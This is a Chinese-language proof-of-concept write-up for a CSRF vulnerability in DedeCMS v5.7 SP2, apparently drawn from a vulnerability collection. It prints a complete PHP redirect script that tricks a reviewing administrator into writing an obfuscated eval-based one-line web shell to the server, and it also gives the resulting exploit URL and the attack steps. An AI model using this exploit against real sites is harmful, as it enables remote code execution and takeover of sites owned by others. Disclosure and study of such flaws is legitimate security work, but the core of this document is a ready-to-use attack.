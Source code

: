 # DedeCMS_v5.7_友情链接CSRF_GetShell.assets

## Affected Version

DedeCMS-V5.7-UTF8-SP2  （ 发布日期  2017-03-15 ）

下载地址： 链接: https://pan.baidu.com/s/1bprjPx1 密码: mwdq


## PoC

该版本在新建&修改标签功能（可以写PHP文件到本地）存在CSRF漏洞，通过申请友情链接的方式，诱使管理员点击，从而从 Referer 中拿到 后台路径，进而以管理员的身份写一句话到服务器上 GetShell 。

测试：

1. 申请友链

![](DedeCMS_v5.7_友情链接CSRF_GetShell.assets/apply.png)

2. 编辑 友链 信息

![](DedeCMS_v5.7_友情链接CSRF_GetShell.assets/edit.png)

dedecms_csrf.php 的内容如下：

    <?php
    $referer = $_SERVER['HTTP_REFERER'];
    $dede_login = str_replace("friendlink_main.php","",$referer);//去掉friendlink_main.php，取得dede后台的路径
    $muma = '<'.'?'.'@'.'e'.'v'.'a'.'l'.'('.'$'.'_'.'P'.'O'.'S'.'T'.'['.'\''.'c'.'\''.']'.')'.';'.'?'.'>';
    $exp = 'tpl.php?action=savetagfile&actiondo=addnewtag&content='. $muma .'&filename=shell.lib.php';
    $url = $dede_login.$exp;
    header("location: ".$url);
    exit();

3. 管理员登陆后台后 对 友链进行审核

![](DedeCMS_v5.7_友情链接CSRF_GetShell.assets/link_list.png)

4. 审核的时候一般都会点击 地址 看一下网站的内容，由于友链中使用了header 跳转，所以结果其实是访问了 `http://localhost/DedeCMS/DedeCMS-V5.7-GBK-SP2-20170315/uploads/dede/tpl.php?action=savetagfile&actiondo=addnewtag&content=%3C?@eval($_POST[%27c%27]);?%3E&filename=shell.lib.php` 请求。

![](DedeCMS_v5.7_友情链接CSRF_GetShell.assets/click_res.png)

5. 查看写入到服务器的一句话 `shell.lib.php`

![](DedeCMS_v5.7_友情链接CSRF_GetShell.assets/shell.png)

## References

1. http://0day5.com/archives/4209/
